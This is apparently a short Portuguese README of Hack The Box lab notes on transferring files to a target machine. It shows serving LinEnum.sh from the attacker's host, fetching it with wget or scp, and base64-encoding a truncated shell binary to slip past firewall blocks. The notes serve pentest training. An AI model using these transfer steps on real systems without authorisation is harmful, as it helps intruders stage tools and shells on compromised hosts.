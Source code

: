 # Transferindo-Arquivos

MAQUINA HOST
-
Gust4vo@htb[/htb]$ cd /tmp </br>
Gust4vo@htb[/htb]$ chmod +x LinEnum.sh </br>
Gust4vo@htb[/htb]$ python3 -m http.server 8000

 MAQUINA ALVO USANDO WGET COM
 -
user@remotehost$ wget http://10.10.14.1:8000/LinEnum.sh </br>
...SNIP... </br>
Saving to: 'linenum.sh' </br>
linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s </br>
2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337] </br>

MAQUINA ALVO USANDO SCP
 -
 Gust4vo@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh </br>
 user@remotehost's password: ********* </br>
 linenum.sh </br>

 ---

 Em alguns casos, talvez não consigamos transferir o arquivo. Por exemplo, o host remoto pode ter proteções de firewall que nos impedem de baixar um arquivo de nossa máquina. Neste tipo de situação, podemos usar um truque simples para base64 codificar o ficheiro </br>

 MAQUINA HOST
-
Gust4vo@htb[/htb]$ base64 shell -w 0 </br>
f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU </br>

MAQUINA ALVO USANDO BASE64
 -
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell

